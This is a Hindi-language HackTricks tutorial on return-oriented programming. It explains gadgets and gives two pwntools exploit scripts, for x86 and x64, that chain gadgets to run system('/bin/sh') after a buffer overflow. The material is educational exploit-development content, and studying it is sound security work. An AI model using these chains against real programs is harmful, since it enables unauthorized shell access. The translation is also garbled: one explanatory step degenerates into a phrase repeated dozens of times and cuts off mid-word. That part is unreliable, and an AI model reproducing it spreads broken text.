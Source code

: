# ROP - रिटर्न ओरिएंटेड प्रोग्रामिंग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert) के साथ</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## **मूल जानकारी**

**रिटर्न-ओरिएंटेड प्रोग्रामिंग (ROP)** एक उन्नत शोषण तकनीक है जिसका उपयोग **No-Execute (NX)** या **Data Execution Prevention (DEP)** जैसी सुरक्षा उपायों को दाखिल करने के लिए किया जाता है। शेलकोड डालने और निष्पादित करने की बजाय, एक हमलावर बाइनरी या लोडेड लाइब्रेरी में पहले से मौजूद कोड के टुकड़ों का उपयोग करता है, जिन्हें **"गैजेट"** कहा जाता है। प्रत्येक गैजेट सामान्यत: `ret` निर्देश के साथ समाप्त होता है और छोटे कार्य करता है, जैसे कि रजिस्टर के बीच डेटा को ले जाना या अंकगणितीय कार्य करना। इन गैजेट्स को एक साथ जोड़कर, एक हमलावर एक पेलोड बना सकता है जिससे वे विभिन्न कार्रवाई कर सकते हैं, NX/DEP सुरक्षा की रक्षा को पार करते हुए।

### ROP कैसे काम करता है

1. **नियंत्रण फ्लो हाइजैकिंग**: पहले, एक हमलावर को किसी प्रोग्राम के नियंत्रण फ्लो को हाइजैक करने की आवश्यकता होती है, सामान्यत: एक बफर ओवरफ्लो का उपयोग करके स्टैक पर सहेजी गई वापसी पता अधिग्रहण करके।
2. **गैजेट चेनिंग**: फिर हमलावर ध्यानपूर्वक गैजेट चुनता है और चेनिंग करता है ताकि वह वांछित क्रियाएँ कर सके। इसमें किसी फ़ंक्शन के लिए तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## आरओपी श्रृंखला x64 उदाहरण

### **x64 (64-बिट) कॉलिंग कनवेंशन**

* यूनिक्स-जैसे सिस्टम पर **System V AMD64 ABI** कॉलिंग कनवेंशन का उपयोग करता है, जहां **पहले छह पूर्णांक या पॉइंटर आर्ग्यूमेंट `RDI`, `RSI`, `RDX`, `RCX`, `R8`, और `R9` में पास किए जाते हैं**। अतिरिक्त आर्ग्यूमेंट स्टैक पर पास किए जाते हैं। रिटर्न मान `RAX` में रखा जाता है।
* **Windows x64** कॉलिंग कनवेंशन में पहले चार पूर्णांक या पॉइंटर आर्ग्यूमेंट के लिए `RCX`, `RDX`, `R8`, और `R9` का उपयोग किया जाता है, अतिरिक्त आर्ग्यूमेंट स्टैक पर पास किए जाते हैं। रिटर्न मान `RAX` में रखा जाता है।
* **रजिस्टर**: 64-बिट रजिस्टर में `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, और `R8` से `R15` शामिल हैं।

#### **गैजेट्स खोजना**

हमारे उद्देश्य के लिए, आइए उन गैजेट्स पर ध्यान केंद्रित करें जो हमें **RDI** रजिस्टर सेट करने की अनुमति देंगे (**system()** को आर्ग्यूमेंट के रूप में **"/bin/sh"** स्ट्रिंग पास करने के लिए) और फिर **system()** फ़ंक्शन को कॉल करेंगे। हम मान लेंगे कि हमने निम्नलिखित गैजेट्स की पहचान कर ली है:

* **pop rdi; ret**: स्टैक के शीर्ष मान को **RDI** में पॉप करता है और फिर वापस लौटता है। **system()** के लिए हमारे आर्ग्यूमेंट सेट करने के लिए आवश्यक है।
* **ret**: कुछ स्थितियों में स्टैक संरेखण के लिए उपयोगी एक सरल रिटर्न।

और हम **system()** फ़ंक्शन का पता जानते हैं।

### **ROP श्रृंखला**

नीचे एक उदाहरण है जिसमें **pwntools** का उपयोग करके **x64** पर **system('/bin/sh')** को निष्पादित करने के लिए आरओपी श्रृंखला सेट अप और निष्पादित करने के लिए किया गया है:
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
### स्टैक समरेखण

**x86-64 ABI** सुनिश्चित करता है कि जब एक **कॉल इंस्ट्रक्शन** को निष्पादित किया जाता है, तो **स्टैक 16-बाइट समरेखित** होता है। **LIBC**, प्रदर्शन को अनुकूलित करने के लिए, **SSE इंस्ट्रक्शन** (जैसे **movaps**) का उपयोग करता है जो इस समरेखण की आवश्यकता है। यदि स्टैक सही ढंग से समरेखित नहीं है (यानी **RSP** 16 का एक गुणक नहीं है), तो **ROP श्रृंखला** में **system** जैसी फ़ंक्शन को कॉल करने में विफलता होगी। इसे ठीक करने के लिए, अपनी ROP श्रृंखला में **ret गैजेट** जोड़ें।

## x86 बनाम x64 मुख्य अंतर

{% hint style="success" %}
क्योंकि **x64 पहले कुछ तर्कों के लिए रजिस्टर का उपयोग करता है**, इसे आम फ़ंक्शन कॉल के लिए x86 की तुलना में कम गैजेट की आवश्यकता होती है, लेकिन सही गैजेट्स का पता लगाना और उन्हें चेनिंग करना अधिक जटिल हो सकता है क्योंकि रजिस्टरों की बढ़ी हुई संख्या और बड़े पते का अंतर्वस्तु अंतर्वस्तु में वृद्धि होती है। **x64** आर्किटेक्चर में बढ़ी हुई रजिस्टरों की संख्या और बड़े पते का अंतर्वस्तु विकसित करने के लिए अवसर और चुनौतियाँ प्रदान करती है, विशेष रूप से Return-Oriented Programming (ROP) के संदर्भ में।
{% endhint %}
